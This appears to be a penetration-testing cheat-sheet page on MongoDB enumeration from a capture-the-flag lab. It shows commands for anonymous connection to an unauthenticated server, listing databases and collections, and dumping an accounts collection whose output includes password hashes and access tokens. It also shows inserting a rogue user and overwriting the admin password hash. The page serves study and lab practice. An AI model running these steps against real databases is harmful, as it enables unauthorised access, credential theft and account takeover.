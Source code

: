 ```yaml
---
title: "MongoDB General"
date: 2025-7-25
tags: ["Database Dumping", "Mongodb", "Database", "Enumeration"]
---
```


#### Connect to Mongo Database

{{< tab set1 tab1 >}}anonymous{{< /tab >}}
{{< tab set1 tab2 >}}authenticate{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
mongosh <TARGET>:27017
```

```console {class="sample-code"}
$ mongosh 172.17.0.3:27017
Current Mongosh Log ID: 66f2fa2192b07a1eeb856ec6
Connecting to:          mongodb://172.17.0.3:27017/?directConnection=true&appName=mongosh+2.2.12
Using MongoDB:          5.0.6
Using Mongosh:          2.2.12

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-09-24T10:44:22.876+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-09-24T10:44:23.824+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
------

Warning: Found ~/.mongorc.js, but not ~/.mongoshrc.js. ~/.mongorc.js will not be loaded.
  You may want to copy or rename ~/.mongorc.js to ~/.mongoshrc.js.
test> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Connect local with creds and specified database
mongo -u <USER> -p '<PASSWORD>' <DB_NAME>
```

{{< /tabcontent >}}

#### General

```console
# Show all databases
show dbs
```

```console {class="sample-code"}
test> show dbs
admin    132.00 KiB
config    72.00 KiB
local     88.00 KiB
trudesk    1.01 MiB
```

```console
# Choose database
use <DB_NAME>
```

```console {class="sample-code"}
test> use trudesk
switched to db trudesk
```

```console
# Show all collections
show collections
```

```console {class="sample-code"}
trudesk> show collections
accounts
counters
departments
groups
messages
---[SNIP]---
```

```console
# Show all of the collection
db.<COLLECTION_NAME>.find().pretty()
```

```console {class="sample-code"}
trudesk> db.accounts.find().pretty()
[
  {
    _id: ObjectId('623c8b20855cc5001a8ba13c'),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'admin',
    password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',
    fullname: 'Robert Frost',
    email: 'rfrost@carpediem.htb',
    role: ObjectId('623c8b20855cc5001a8ba138'),
    title: 'Sr. Network Engineer',
    accessToken: '22e56ec0b94db029b07365d520213ef6f5d3d2d9',
    __v: 0,
    lastOnline: ISODate('2022-04-07T20:30:32.198Z')
  },
---[SNIP]---
```

```console
# Insert entry into collections
db.<COLLECTION_NAME>.insert({"<key>": "<value>"})
```

```console {class="sample-code"}
trudesk> db.accounts.insert({_id: ObjectId('33f3b8a827983e3773023633'),preferences: {tourCompleted: false,autoRefreshTicketGrid: true,openChatWindows: []},hasL2Auth: false,deleted: false,username: 'test',password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',fullname: 'Test USer',email: 'test@carpediem.htb',role: ObjectId('623c8b20855cc5001a8ba138'),title: 'Test',accessToken: '3fd5a5e64963cd4b973480032125011568fee525',__v: 0,lastOnline: ISODate('2022-04-07T20:30:32.198Z')})
{
  acknowledged: true,
  insertedIds: { '0': ObjectId('33f3b8a827983e3773023633') }
}
```

```console
# Update an entry (e.g. password of user)
db.<COLLECTION_NAME>.updateOne({"username": "user"}, {$set: {"password": "password"}});
```

```console {class="sample-code"}
trudesk> db.accounts.updateOne({"username":"admin"}, {$set:{"password":"$2b$04$gj6qKJ4AhURmyt1wnUfPsOPebiur236k1m57BwteWHDV2fzJL74Yq"}})
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 0,
  upsertedCount: 0
}
```